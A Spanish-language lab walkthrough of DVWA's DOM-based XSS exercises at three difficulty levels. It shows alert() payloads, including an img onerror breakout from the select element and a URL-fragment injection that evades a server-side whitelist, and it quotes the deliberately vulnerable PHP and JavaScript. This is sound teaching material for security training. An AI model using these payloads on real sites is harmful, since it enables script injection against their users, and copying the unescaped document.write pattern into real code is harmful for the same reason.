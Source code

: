 # Dom

### Bajo <a href="#domlow" id="domlow"></a>

Entramos en la ultima prueba de XSS que es el DOM, en la cual nos encontramos un select

![](<../.gitbook/assets/1 (14).png>)

el cual al hacer click nos genera la siguiente url

```
http://localhost/vulnerabilities/xss_d/?default=French
```

Como en el reflejado vamos a vamos a probar el ataque básico de alert en la url a ver que sucede.

```
http://localhost/vulnerabilities/xss_d/?default=French<script>alert("low")</script>
```

Y vemos que el ataque tiene efecto.

![](<../.gitbook/assets/2 (15).png>)

### Medio <a href="#dommedium" id="dommedium"></a>

Vamos al nivel medio y como siempre empezamos a probar por el ataque mas sencillo y vemos que no funciona.

![](<../.gitbook/assets/1 (5).png>)

Si nos fijamos en el código, vemos que usa [stripos](http://php.net/manual/es/function.stripos.php) _que encuentra la posición de la primera aparición de un substring en un string sin considerar mayúsculas ni minúsculas;_ por lo que al usar el tag script, nos redirecciona a la url por defecto.

```php
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
```

Como hemos visto en otro ejemplo de XSS, vamos a utilizar los eventos de HTML, por lo que probamos la siguiente url

```markup
English<img src=x onerror=alert("medium")>
```

Quedándose como en el anterior caso, pero vamos a inspeccionar el elemento por si sucedió algo.

![](<../.gitbook/assets/2 (13).png>)

Podemos observar que, el código que insertamos en la URL se nos ha metido dentro del option, por lo que tenemos que cerrar el option y el select para que lo escriba fuera.

```markup
English"></option></select><img src=x onerror=alert("medium")>
```

Al hacer esto observamos que la inyección de código a sido exitosa.

![](<../.gitbook/assets/3 (6).png>)

### Alto <a href="#domhigh" id="domhigh"></a>

Vamos con el ultimo nivel de XSS, si probamos todos los ataques anteriores vemos que el select ni se entera de que esta pasando.

![](<../.gitbook/assets/1 (17).png>)

Si nos fijamos en el código, observamos que comprueba con un switch si es un valor valido.

```php
  switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
```

En las URLs existen las anclas que se utilizando usando #. La parte que se se encuentra posterior a la # no se envía al servidor, por lo que no se puede filtrar.

```
http://localhost/vulnerabilities/xss_d/?default=English#dvwa
```

Al probar la anterior url nos encontramos con que se pinta en el select

![](../.gitbook/assets/2.png)

Esto es debido a una mala programación del JavaScript que renderiza la página.

```javascript
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}
```

Que como vemos pinta tal cual llega de la URL lo que hay en default, por lo que si ejecutamos la siguiente URL

```
http://localhost/vulnerabilities/xss_d/?default=English#<script>alert("high")</script>
```

Conseguimos realizar el ataque.

![](<../.gitbook/assets/3 (5).png>)

